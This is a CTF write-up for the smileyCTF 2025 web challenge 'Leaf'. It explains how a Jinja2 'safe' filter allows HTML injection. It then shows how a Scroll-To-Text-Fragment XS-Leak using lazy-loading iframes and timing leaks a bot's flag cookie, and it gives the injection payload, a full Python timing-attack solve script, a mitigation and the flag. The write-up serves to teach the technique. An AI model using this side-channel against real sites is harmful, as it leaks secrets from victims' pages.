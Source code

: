 ```yaml
---
title: Leaf
author: Chara
description: I always think leaf ~= tea. Please allow remote to have some time to boot the browser.
categories:
    - web
year: 2025
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** Small website reflecting user input via URL query parameter
    **- Key Discoveries:** Due to **Jinja2** `safe` attribute you basically have **HTML** injection
    **- Vulnerability:** The website is vulnerable to a special form of **XSLeak**: **STTF** - **Scroll-To-Text-Fragment**
    **- Exploitation:** By injecting lazy loading iframes, you can measure the time it takes for the bot to load the website

# 1. Introduction<a id="introduction"></a>
The challenge setup is very minimalistic. You only have the index page reflecting user input via the `leaf` URL parameter, but in a very special way:

![landing-page](ctf/writeups/smileyctf/leaf/landing_page.png "landing-page")

For testing purposes, you can also create a `flag` cookie, which is also reflected by the website. As you can see, the **JavaScript** is transforming every text in the **HTML** tags with the `leaf` class into a text consisting of `span` tags, separating each character from each other. But it doesn't affect the visuals of the text. Moreover, there is a `/bot` endpoint on which you can send your `leaf` to a bot that will visit it.

# 2. Reconnaissance<a id="reconnaissance"></a>
Having a closer look at the source code of the challenge reveals `<div class="leaf">{{ leaves | safe}}</div>`. The `safe` keyword tells the underlying templating engine, **Jinja2**, that this content is safe and there is no need to escape it. This is very interesting, as we control everything that goes into this `leaf` tag. The applied **CSP** is very strict with `default-src 'none'; script-src 'nonce-{nonce}'; style-src 'nonce-{nonce}'; base-uri 'none'; frame-ancestors 'none';`. We can't even frame the website and **CSS** and **JavaScript** are only permitted with the correct nonce, which is generated safely. So basically, this challenge is all about putting the correct payload into the `leaf` URL parameter. In a comment, there is a hint that the flag starts with `d0nt`.

# 3. Vulnerability Description<a id="vulnerability description"></a>
As already mentioned, due to the `safe` keyword, we have **HTML** injection via the `leaf` URL parameter. But we can't execute any **JavaScript**, so this has to be some different form of XSS.
This is where we get to **XSLeak**, a special form of a side channel with which you can infer information by observing small information the website is leaking, like status codes, errors, timing, etc. There is a great [resource](https://xsleaks.dev/) for these kinds of attacks.
The `span` elements strongly hint that this is all about [STTF XSLeak](https://xsleaks.dev/docs/attacks/experiments/scroll-to-text-fragment/). Usually [Scroll-To-Text-Fragment](https://github.com/WICG/scroll-to-text-fragment) is used to automatically scroll to some specific part of a website matching the given URL fragment. This is, for example, used by search engines, linking directly to the part of the resource interesting to the user. The browser will scroll to this part after the website finishes loading. The generic syntax for **STTF** is `:~:text=[prefix-,]textStart[,textEnd][,-suffix]`. So, applied to our web challenge, you can do something like `/?leaf=testleaf#:~:text=testleaf`. In most of the challenges which are about **STTF** vulnerabilities, the website applies these `span` elements to the content, so it is possible to brute force the flag char by char. Without this modification, you could only match whole words and not parts of the text, making a char by char brute force attack impossible.
Now this is where it gets interesting. We can make the bot scroll around on the website. Either to a part of the flag or to other content on the page. So we need to find a way to distinguish correct characters from wrong ones. This is where `lazy loading iframes` come into play. The [lazy loading](https://developer.mozilla.org/de/docs/Web/Performance/Guides/Lazy_loading) attribute makes elements only load their source when they get near the viewport of your browser. Unfortunately, we can't specify a source for the iframes because of the **CSP** having `default-src 'none'`. However, iframes still try to load the source specified by their `src` attribute, which will eventually be blocked by the **CSP**. Having a lot of these iframes will make the website lag for a short time. Thanks to the `implicitly_wait` in the source code of the bot, we can just measure the time it takes for the bot to respond to our request after visiting our `leaf`.

# 4. Exploitation<a id="exploitation"></a>
So, at first, we need to make sure that we can inject arbitrary **HTML** into the website. The **JavaScript** applying the `span` tags destroys our payload, so we need to escape out of the `leaf` element by starting with a closing `</div>`. After that, we need to make sure the injected iframes are not right away in the viewport. We can just do this with some `</br>` tags, moving the iframes to a lower part of the website. At the bottom of the page, we just spam iframes as much as we can. We just have to be careful not to trigger a `414 URI Too Long`.
Moreover, we need to make the iframes small enough by applying `width=0 height=0` so all of them are present in the viewport and thus lazy load their source when being scrolled to.
But there is still one problem: **STTF** is case insensitive, which means you get the same behaviour with `/?leaf=testleaf#:~:text=testleaf` as with `/?leaf=testleaf#:~:text=testLEAF`. For this reason, we just assume there are only lowercase characters in the flag.
Between the iframes, we place a special string `FLAG_NOT_FOUND` which is scrolled to when the guessed character is wrong. So, for now, our payload is as follows:

```sql
</div>A</br>A</br>...</br>A<iframe src=x loading=lazy width=0 height=0></iframe>...<iframe src=x loading=lazy width=0 height=0></iframe>FLAG_NOT_FOUND<iframe src=x loading=lazy width=0 height=0></iframe>...<iframe src=x loading=lazy width=0 height=0></iframe>#:~:text=d0nta&text=FLAG_NOT_FOUND
```

We can enhance this payload even more. Instead of going through char by char, we can group the characters and just do a binary search. One of the characteristics of **STTF** is that only the leftmost successfully matched directive will be scrolled to. So we can add even more `text` directives to our query, resulting in something like:

```sql
#:~:text=d0nta&text=d0ntb&text=d0ntc...text=d0nt9&text=FLAG_NOT_FOUND
```

Now that we have our payload we just need to measure the time it takes for the bot to respond to our request with the first half of the characters and for the second half. The half with the lower response time is the one containing the correct next flag character, so we keep going like this recursively until only one character is left. Then just repeat this process.
You just need to be careful as the flag format `.;,;.{` and `}` were stripped out of the flag, we can't wait until we hit `}`. As a termination condition, we can just calculate the difference between the two response times. If the difference is not big enough or both response times exceed a certain time limit, we have already got the full flag.

# 5. Mitigation<a id="mitigation"></a>
In general, preventing XSLeaks is a pretty tough challenge. But in the first place this exploit could have been completely prevented by not applying the **Jinja2** `safe` keyword to untrusted input.

# 6. Solve script<a id="solve script"></a>
```python
# .;,;.{d0ntul0v3th1sf34tur3}

import requests, time, base64
from statistics import mean
import string
import urllib3

BASE_URL = "http://localhost:8800"
FLAG = 'test'
BASE_URL = "https://web-leaf-chx8mbzz.smiley.cat"
FLAG = 'd0nt'

BOT_ENDPOINT = f"{BASE_URL}/bot"

FLAG_CHARS = string.ascii_lowercase +  string.digits + '{}_.-'
TRIES = 2
TIMEOUT = 5

def generate_br_string(length):
    return '</br>'.join('A' for _ in range(length))

def measure_latency(payload):
    b64 = base64.b64encode(payload.encode()).decode()
    params = {'leaf': b64}
    times = []
    for _ in range(TRIES):
        try:
            t0 = time.time()
            r = requests.get(BOT_ENDPOINT, params=params, timeout=TIMEOUT, allow_redirects=False)
            t1 = time.time()
            dif = t1 - t0
            times.append(dif)
        except (TimeoutError, urllib3.exceptions.ReadTimeoutError, requests.exceptions.ReadTimeout):
            times.append(TIMEOUT)
    return mean(times)

def generate_payload(candidates):
    global FLAG

    lazy_iframe = """<iframe src=x loading=lazy width=0 height=0></iframe>"""
    candidates_string = "FLAG_NOT_FOUND"
    frag = "#:~:text=" + "&text=".join(f"{FLAG}{c}" for c in candidates) + "&text=FLAG_NOT_FOUND"
    num_br = 200
    iframe_num = 400
    payload = '</div>' + generate_br_string(num_br) + (lazy_iframe * iframe_num) + candidates_string + (lazy_iframe * iframe_num) + frag
    mean_time = measure_latency(payload)
    print(f"\t\t[-] Mean time: {mean_time:.3f}s")
    return mean_time

last_min_mean_time = 0
while last_min_mean_time < 2.9:
    print(f"[*] Current flag: {FLAG}")
    search = FLAG_CHARS
    while len(search) > 1:
        first = search[::2]
        second = search[1::2]
        print(f"\t\t[-] Trying first half  ({len(first)}): {first}")
        print(f"\t\t[-] Trying second half ({len(second)}): {second}")

        mean_time_first = generate_payload(list(first))
        mean_time_second = generate_payload(list(second))

        if mean_time_first < mean_time_second:
            search = first
            print("\t[1] Found character in first half")
        else:
            search = second
            print("\t[2] Found character in second half")
        last_min_mean_time = min(mean_time_first, mean_time_second)

    FLAG += search[0]

print(f"[*] Final flag: .;,;.{{{FLAG}}}")

```

# 7. Flag<a id="flag"></a>
.;,;.{d0ntul0v3th1sf34tur3}
